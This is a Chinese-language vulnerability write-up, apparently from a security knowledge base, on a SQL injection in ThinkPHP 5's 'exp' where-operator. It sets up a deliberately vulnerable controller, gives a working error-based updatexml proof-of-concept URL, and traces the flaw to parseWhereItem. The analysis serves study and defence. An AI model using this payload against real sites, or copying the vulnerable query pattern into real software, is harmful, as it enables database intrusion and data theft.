 ```yaml
---
title: Thinkphp5 全版本 sql注入漏洞
id: zhfly3171
---
```


# Thinkphp5 全版本

## 一、漏洞简介

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（ **select** 方法注入）。次漏洞存在于 **Mysql** 类的 **parseWhereItem** 方法中。由于程序没有对数据进行很好的过滤，将数据拼接进 **SQL** 语句，导致 **SQL注入漏洞** 的产生。

## 二、漏洞影响

ThinkPHP5全版本

## 三、复现过程

### 漏洞环境

通过以下命令获取测试环境代码：

```
composer create-project --prefer-dist topthink/think=5.0.10 tpdemo 
```

将 **composer.json** 文件的 **require** 字段设置成如下：

```
"require": {
    "php": ">=5.4.0",
    "topthink/framework": "5.0.10"
}, 
```

然后执行 `composer update` ，并将 **application/index/controller/Index.php** 文件代码设置如下：

```
<?php
namespace app\index\controller; `class Index

{

public function index()

{

$username = request()->get(‘username’);

$result = db(‘users’)->where(‘username’,‘exp’,$username)->select();

return ‘select success’;

}

}` 
```

在 **config/database.php** 文件中配置数据库相关信息，并开启 **config/app.php** 中的 **app_debug** 和 **app_trace** 。创建数据库信息如下：

```
create database tpdemo;
use tpdemo;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null
);
insert into users(id,username) values(1,'mochazz'); 
```

### poc

```
http://0-sec.org:8000/index/index/index?username=) union select updatexml(1,concat(0x7,user(),0x7e),1)# 
```

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app_debug** 是无法看到 **SQL** 报错信息的）

![1.png](../img/ce792a457e97de4b049473dfa79a7ab6.png)

### 漏洞分析

由于官方根本不认为这是一个漏洞，而认为这是他们提供的一个功能，所以官方并没有对这个问题进行修复。但笔者认为这里的数据过滤还是存在问题的，所以我们还是来分析分析这个漏洞。

程序默认调用 **Request** 类的 **get** 方法中会调用该类的 **input** 方法，但是该方法默认情况下并没有对数据进行很好的过滤，所以用户输入的数据会原样进入框架的 **SQL** 查询方法中。首先程序先调用 **Query** 类的 **where** 方法，通过其 **parseWhereExp** 方法分析查询表达式，然后再返回并继续调用 **select** 方法准备开始构建 **select** 语句。

![2.png](../img/a67390cd3f2be79ca2a830d57544bbec.png)

上面的 **$this->builder** 为 **\think\db\builder\Mysql** 类，该类继承于 **Builder** 类，所以接着会调用 **Builder** 类的 **select** 方法。在 **select** 方法中，程序会对 **SQL** 语句模板用变量填充，其中用来填充 **%WHERE%** 的变量中存在用户输入的数据。我们跟进这个 **where** 分析函数，会发现其会调用生成查询条件 **SQL** 语句的 **buildWhere** 函数。

![3.png](../img/06ac855fc419c3f819c482649e22bde4.png)

继续跟进 **buildWhere** 函数，发现用户可控数据又被传入了 **parseWhereItem** where子单元分析函数。我们发现当操作符等于 **EXP** 时，将来自用户的数据直接拼接进了 **SQL** 语句，最终导致了 **SQL注入漏洞** 。

![4.png](../img/4238200892e01782166284cc131204f1.png)

### 漏洞修复

未修复。

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![5.png](../img/035feefd99d1e84018b652c386dc910b.png)

## 参考链接

> https://github.com/Mochazz/ThinkPHP-Vuln